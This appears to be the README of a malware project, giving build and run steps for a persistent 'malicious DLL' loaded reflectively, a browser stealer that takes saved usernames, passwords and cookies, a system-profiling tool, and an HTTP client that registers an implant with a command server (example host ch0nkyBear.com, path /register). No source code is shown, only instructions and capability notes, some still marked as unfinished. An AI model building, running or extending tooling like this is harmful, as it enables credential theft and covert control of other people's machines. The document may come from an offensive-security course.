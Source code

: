 # README

## To Compile the Malicious DLL

* Go to: reflectivedll> realDLL folder
* Run make to compile the DLL
* In the Command line, run .\testmDll.exe maliciousdll.dll

* The Malicious DLL currently checks for the Chonky.txt file and is Persistent.
* It does NOT currently include the communicationfuncs.cpp and .h files because it would cause errors
* TODO: get the communication functions working with the server, then add the files to the make file as a requirement for the dll

## To display Browser Information - Stealer Functionality

* Go to: reflectivedll> realDLL folder
* Run make and then make run

![image](https://user-images.githubusercontent.com/42654496/146636733-2d760b85-ad8d-410a-9b82-33b12e30980f.png)

* Steals Login Data(username and password) and Cookies from the system and displays to console

![image](https://user-images.githubusercontent.com/42654496/146636649-532a38a9-7822-4afa-bade-81098a8bed3b.png)

## To get Situational Awareness info

* Go to: reflectivedll> TestingFeatures> getInfo folder
* Run make to build the infoTest executable
* In the command line, run .\infoTest.exe 

* This executable will print out the data of the current machine
* It is currently not a feature of the dll

## To make an HTTP Request to the Server

* Go to: reflectivedll> TestingFeatures > http folder
* Run make to build the http executable
* In the command line, run .\http.exe fqdn port uri useTLS payload payloadLength
* The payload should be a hex string that (before converted to hex), is in the format "guid=implantTest&username=TestUser&=computername=TestComputer\r\n"
* EX: .\http.exe ch0nkyBear.com 443 /register 1 "23478y9hfj874" 13

* Currently: Issues handling payloads on the server side
* testInfo.cpp is a file that includes example hex encoded payloads to try out
